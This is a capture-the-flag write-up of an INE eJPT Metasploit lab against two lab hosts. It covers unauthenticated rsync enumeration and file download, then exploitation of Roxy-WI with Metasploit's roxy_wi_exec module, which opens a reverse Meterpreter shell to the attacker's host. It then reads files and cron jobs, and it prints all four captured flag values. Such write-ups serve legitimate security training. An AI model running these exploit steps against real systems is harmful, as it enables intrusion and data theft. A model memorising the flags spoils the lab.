





# Host & Network Penetration Testing: The Metasploit Framework CTF 2

**Platform:** INE Security  
**Course / Certification:** eJPT  
**Category:** Host & Network Penetration Testing — The Metasploit Framework  
**Difficulty:** Easy-Medium  
**Date Completed:** 2026-11-13  
**Flags Captured:** 4/4 ✅  

---

## 📝 Objective / Summary

The objective of this skill check lab is to apply network service enumeration techniques and the Metasploit Framework against two Linux targets (`target1.ine.local` at `192.151.163.3` and `target2.ine.local` at `192.151.163.4`) to uncover all 4 hidden flags.

- **Target 1 (`target1.ine.local`):** Exposes an unauthenticated RSYNC service on port 873. Querying available modules discloses **Flag 1** directly embedded inside the module comment banner. Synchronizing the module files locally uncovers `pii_data.xlsx`, containing **Flag 2**.
- **Target 2 (`target2.ine.local`):** Hosts **Roxy-WI** (an administrative GUI for HAProxy/Nginx) on ports 80 and 443. Using Metasploit's `exploit/linux/http/roxy_wi_exec` module, we exploit an unauthenticated command injection vulnerability to establish a Meterpreter shell as `www-data`. From the shell, we read `/flag.txt` to capture **Flag 3** and enumerate system cron jobs inside `/etc/cron.d/` to retrieve **Flag 4**.



---

## 🛠️ Tools Used

- **Nmap (`7.94SVN`)** — Network host discovery, port scanning, service version detection, and SSL certificate fingerprinting
- **rsync (`protocol version 31`)** — Remote file transfer utility used for module enumeration and offline file extraction
- **WhatWeb** — Web application technology identification and HTTP redirect analysis
- **Metasploit Framework (`msfconsole v6.4.12`)** — Vulnerability scanning and remote command execution (`exploit/linux/http/roxy_wi_exec`)
- **Meterpreter (`python/linux`)** — Post-exploitation agent for interactive shell access and filesystem interrogation
- **Linux Core Utilities** — `cat`, `ls`, `file`, `ifconfig`

---

## 🌐 Target Information

| Hostname | IP Address | Operating System | Open Ports & Services | Vulnerability / Attack Vector |
|---|---|---|---|---|
| **target1.ine.local** | `192.151.163.3` | Linux (Container) | `873/tcp` (rsync v31) | Unauthenticated RSYNC module listing & sensitive backup disclosure |
| **target2.ine.local** | `192.151.163.4` | Ubuntu Linux (Kernel 6.8.0) | `80/tcp`, `443/tcp` (Apache 2.4.52) | Roxy-WI < 6.1.1.0 Unauthenticated Command Injection RCE (CVE-2022-31137) |

---

## 🔍 1. Target 1: RSYNC Enumeration & Flag 1

### Step 1.1: Service Scanning
We scan `target1.ine.local` using Nmap:

```bash
nmap -sV -sC target1.ine.local
```

**Nmap Scan Output:**
```
Nmap scan report for target1.ine.local (192.151.163.3)
Host is up (0.000027s latency).
Not shown: 999 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
MAC Address: 02:42:C0:97:A3:03 (Unknown)
```

The scan reveals only port **873/tcp** running the **rsync** daemon.

### Step 1.2: Banner & Module Enumeration (Flag 1)
We query the target RSYNC daemon for available modules using `rsync --list-only`:

```bash
rsync --list-only target1.ine.local::
```

**Output:**
```
backupwscohen   FLAG1_3a87eff69df34fbb90dd612946014f94
```



The module description directly discloses **Flag 1**!

✅ **Flag 1 Captured:** `3a87eff69df34fbb90dd612946014f94` (Token: `FLAG1_3a87eff69df34fbb90dd612946014f94`)

---

## 📂 2. Target 1: RSYNC File Extraction & Flag 2

### Step 2.1: Listing Remote Module Contents
We inspect the files available inside the `backupwscohen` module:

```bash
rsync --list-only target1.ine.local::backupwscohen
```

**Output:**
```
drwxr-xr-x          4,096 2026/11/13 11:27:16 .
-rw-r--r--             20 2024/10/28 15:05:40 TPSData.txt
-rw-r--r--             25 2024/10/28 15:05:40 office_staff.vhd
-rw-r--r--             39 2026/11/13 11:27:16 pii_data.xlsx
```

### Step 2.2: Downloading Backup Files
We synchronize all files from the remote share to a local `./backup/` directory:

```bash
rsync -av target1.ine.local::backupwscohen/ ./backup/
```
```
receiving incremental file list
created directory ./backup
./
TPSData.txt
office_staff.vhd
pii_data.xlsx

sent 84 bytes  received 341 bytes  850.00 bytes/sec
total size is 84  speedup is 0.20
```

### Step 2.3: File Inspection & Flag 2 Retrieval
We check file types and view the contents:

```bash
file ./backup/office_staff.vhd ./backup/pii_data.xlsx
```
```
./backup/office_staff.vhd: ASCII text
./backup/pii_data.xlsx:    ASCII text
```

Both files are plain ASCII text despite their extensions. We inspect `pii_data.xlsx`:

```bash
cat ./backup/pii_data.xlsx
```
**Output:**
```
FLAG2_083c093e390641cbaa9f218aafe695ec
```



✅ **Flag 2 Captured:** `083c093e390641cbaa9f218aafe695ec` (Token: `FLAG2_083c093e390641cbaa9f218aafe695ec`)

---

## 🌐 3. Target 2: Web Application Reconnaissance (Roxy-WI)

### Step 3.1: Nmap Service Scan
We scan the second host `target2.ine.local`:

```bash
nmap -sV -sC target2.ine.local
```

**Nmap Scan Output:**
```
Nmap scan report for target2.ine.local (192.151.163.4)
Host is up (0.000027s latency).
Not shown: 998 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Roxy-WI
443/tcp open  ssl/http Apache httpd 2.4.52
|_http-title: Roxy-WI
|_http-server-header: Apache/2.4.52 (Ubuntu)
| ssl-cert: Subject: commonName=*.roxy-wi.org/organizationName=Roxy-WI/stateOrProvinceName=Almaty/countryName=US
MAC Address: 02:42:C0:97:A3:04 (Unknown)
Service Info: Host: roxy-wi.example.com
```

### Step 3.2: Web Technology Fingerprinting
Using `whatweb`:

```bash
whatweb http://target2.ine.local
```
```
http://target2.ine.local [200 OK] Apache[2.4.52], HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[192.151.163.4], JQuery[3.6.0], Meta-Refresh-Redirect[/app/overview.py], Title[Roxy-WI]
```

The server redirects to `/app/overview.py` running **Roxy-WI**.

---

## 🚀 4. Target 2: Metasploit Exploitation (Roxy-WI RCE)

### Step 4.1: Exploit Module Selection
We check our network interfaces to verify our local IP:

```bash
ifconfig eth1
# inet 192.151.163.2  netmask 255.255.255.0
```

We launch `msfconsole` and search for Roxy-WI vulnerabilities:

```bash
msfconsole
msf6 > search roxy
```

We select `exploit/linux/http/roxy_wi_exec` (Roxy-WI Prior to 6.1.1.0 Unauthenticated Command Injection RCE):

```bash
msf6 > use exploit/linux/http/roxy_wi_exec
msf6 exploit(linux/http/roxy_wi_exec) > set RHOSTS 192.151.163.4
msf6 exploit(linux/http/roxy_wi_exec) > set LHOST 192.151.163.2
msf6 exploit(linux/http/roxy_wi_exec) > exploit
```

**Exploitation Output:**
```
[*] Started reverse TCP handler on 192.151.163.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.151.163.4:443 is vulnerable!
[*] 192.151.163.4:443 is vulnerable!
[+] The target is vulnerable. The device responded to exploitation with a 200 OK and test command successfully executed.
[*] Exploiting...
[*] Sending stage (24772 bytes) to 192.151.163.4
[*] Meterpreter session 1 opened (192.151.163.2:4444 -> 192.151.163.4:45008) at 2026-11-13 11:48:10 +0530
```

---

## 🚩 5. Target 2: Post-Exploitation & Flag 3

### Step 5.1: Session Context & System Exploration
Inside our Meterpreter session:

```bash
meterpreter > getuid
Server username: www-data

meterpreter > sysinfo
Computer     : target2.ine.local
OS           : Linux 6.8.0-149-generic #149-Ubuntu SMP PREEMPT_DYNAMIC
Architecture : x64
Meterpreter  : python/linux
```

### Step 5.2: Retrieving Flag 3
We navigate to the root directory `/` and list files:

```bash
meterpreter > cd /
meterpreter > ls
```
```
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100755/rwxr-xr-x  0     fil   2026-11-13 11:27:14 +0530  .dockerenv
040755/rwxr-xr-x  4096  dir   2022-07-29 11:01:41 +0530  bin
040755/rwxr-xr-x  4096  dir   2022-04-18 15:58:59 +0530  boot
040755/rwxr-xr-x  340   dir   2026-11-13 11:27:14 +0530  dev
040755/rwxr-xr-x  4096  dir   2026-11-13 11:27:14 +0530  etc
100644/rw-r--r--  39    fil   2026-11-13 11:27:15 +0530  flag.txt
040755/rwxr-xr-x  4096  dir   2022-04-18 15:58:59 +0530  home
...
```

We read `/flag.txt`:

```bash
meterpreter > cat flag.txt
```
```
FLAG3_84dfde6877354a12b30a7e2b4969496c
```



✅ **Flag 3 Captured:** `84dfde6877354a12b30a7e2b4969496c` (Token: `FLAG3_84dfde6877354a12b30a7e2b4969496c`)

---

## ⏰ 6. Target 2: Cron Job Enumeration & Flag 4

### Step 6.1: Inspecting Scheduled Tasks
We check the `/etc/cron*` directories for scheduled tasks running on the system:

```bash
meterpreter > ls -la /etc/cron*
```
```
Listing: /etc/cron*
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040755/rwxr-xr-x  4096  dir   2026-11-13 11:27:17 +0530  cron.d
040755/rwxr-xr-x  4096  dir   2022-07-28 19:04:51 +0530  cron.daily
```

We inspect the cron configuration file `/etc/cron.d/www-data-cron`:

```bash
meterpreter > cat /etc/cron.d/www-data-cron
```
**Output:**
```
* * * * * www-data echo "FLAG4_ac3159573cc248f88718bee37aecab9d"
```



✅ **Flag 4 Captured:** `ac3159573cc248f88718bee37aecab9d` (Token: `FLAG4_ac3159573cc248f88718bee37aecab9d`)

---

## 🏁 Flags Summary

| Flag | Target | Objective / Challenge Description | Location & Method | Captured Value |
|---|---|---|---|---|
| **Flag 1** | `target1.ine.local` | Enumerate open port & inspect RSYNC banner | `rsync --list-only target1.ine.local::` | `3a87eff69df34fbb90dd612946014f94` |
| **Flag 2** | `target1.ine.local` | Explore files on RSYNC server for valuable data | `backupwscohen/pii_data.xlsx` via `rsync -av` | `083c093e390641cbaa9f218aafe695ec` |
| **Flag 3** | `target2.ine.local` | Exploit target machine to find root flag | `/flag.txt` via Metasploit `roxy_wi_exec` shell | `84dfde6877354a12b30a7e2b4969496c` |
| **Flag 4** | `target2.ine.local` | Enumerate system configuration / cron jobs | `/etc/cron.d/www-data-cron` inspection | `ac3159573cc248f88718bee37aecab9d` |

---

## 🧠 Key Learnings & Takeaways

1. **RSYNC Information Disclosure:** Exposing RSYNC without authentication (`secrets file` / `auth users`) allows anyone on the network to list available modules and synchronize files locally. Module comments frequently leak operational notes or security tokens.
2. **Deceptive File Extensions:** Files named with complex extensions like `.xlsx` or `.vhd` should never be assumed to be binary. Using utilities like `file` or inspecting file headers directly reveals whether they are plain text.
3. **Roxy-WI Pre-Auth RCE (CVE-2022-31137):** Roxy-WI versions prior to 6.1.1.0 contain an unauthenticated command injection vulnerability in web endpoints. Web administration utilities exposed on public interfaces must be kept updated to prevent complete server compromise.
4. **Scheduled Task Enumeration:** System cron files in `/etc/cron.d/`, `/etc/crontab`, and user spool directories are high-priority post-exploitation targets that frequently expose credentials, tokens, or scripts running with elevated privileges.
